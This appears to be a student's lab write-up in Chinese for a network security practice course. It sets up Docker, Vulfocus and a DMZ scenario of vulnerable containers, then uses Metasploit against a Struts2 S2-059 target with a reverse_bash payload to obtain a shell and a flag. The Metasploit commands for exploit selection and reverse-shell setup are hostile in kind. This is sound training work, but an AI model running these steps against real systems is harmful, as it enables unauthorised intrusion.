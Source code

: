 # 网安实践实验一

---

## 环境配置：安装docker

通过述一系列命令实现：

```bash
#将软件源信息写入list文件，使 APT 可以从这个源安装 Docker 相关软件
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | \
sudo tee /etc/apt/sources.list.d/docker.list 

#使用 curl 命令下载 Docker 官方的 GPG 公钥，将GPG 公钥从文本格式转换为二进制格式，用以验证 Docker 软件包的签名，确保软件包来源可信
  curl -fsSL https://download.docker.com/linux/debian/gpg |
  sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

#安装 Docker 及相关组件
  sudo apt update
  sudo apt install -y docker-ce docker-ce-cli containerd.io
```

成功安装后docker的版本信息应该如下所示(2025年3月)：

![](./img/docker版本信息.png)

---

## Vulfocus搭建




## 



## 



##



##



##



##



## DMZ环境搭建

在之前成功运行的Vulfocus的基础上进行操作
### 网卡创建
首先根据下面的步骤依次建立两个网卡,网卡的名称任意，子网和网关不和虚拟机网卡重复即可

![](./img/添加网卡操作.png)

### DMZ场景编排

由于直接导入场景编排的压缩包失败，所以需要手动去编排一个场景，这里可以参考原先的场景编排压缩包中的内容进行操作，对`DMZ.zip`解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

可以直接通过对`raw-content.json`这个文件格式化查看，也可以通过`jq`和`grep`查找需要的内容。

首先确定需要的镜像有哪些：

```bash
cat raw-content.json | jq . | grep image_name
```

即查看文件中与`image_name`相关的内容有哪些：

![](./img/dmz安装镜像.png)

可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
```

这里有两种安装的方法：

* 第一种是通过Vulfocus的GUI界面安装，它会直接调用`docker pull`拉取镜像
* 第二种事直接手动在命令行执行`docker pull`拉取镜像，然后再通过Vulfocus的GUI界面将本地镜像添加进取

完成镜像拉取后，可以在下面的页面进行编排，详情如下：

![](./img/dmz场景编排.png)

完成场景编排后发布场景并在场景模块中启动场景

![](./img/DMZ启动场景.png)

### 流量捕获配置

在启动了场景之后，可以通过下面的命令开启对`struts2-cve_2020_17530`的流量捕获
```bash
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

该命令在当前路径下创建了一个`tcpdump`目录，并且将对指定容器监控的流量捕获到目录中

## DMZ 入口靶标

入口靶标页面如下，记录目标ip和端口号

![](./img/入口靶标.png)
 
进入攻击机，更新并初始化`metasploit`

```bash
sudo apt install -y metasploit-framework
sudo msfdb init
```
检查数据库连接情况并创建工作区准备攻击：

![](./img/检查状态与创建工作目录.png)

由于已经知道了漏洞为`struts2代码执行漏洞`，所以进行相关搜索搜索：
```bash
search struts2 type:exploit
search S2-059 type:exploit
```
使用`info`可以指定序号或名称查看详情
```bash
info 0
```
使用`use`可以使用指定的exp
```bash
use 0
```
使用`show options`可以查看exp的详细参数配置,使用`show payloads`可以查看可用 exp payloads：

```bash
show options
show payloads
```

![](./img/查看payload.png)

选择一个需要的`payload`使用并根据参数列表的内容修改靶机和攻击机的参数

```bash
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.131.10   #靶机IP
set rport  30947    #靶机目标端口    
set LHOST  192.168.131.6   #攻击者主机IP 
```

检查配置的参数,发现已经得到修改：

![](./img/检查参数设置.png)

执行攻击，如果攻击成功，按照payload的内容可以获得靶机的shell:
```bash
run -j 
```

![](./img/靶口获得shell.png)

使用`sessions`命令查看列表，打开`shell`执行命令
```bash
sessions -l
sessions -i 2
```

![](./img/攻破靶口.png)


得到flag

## 


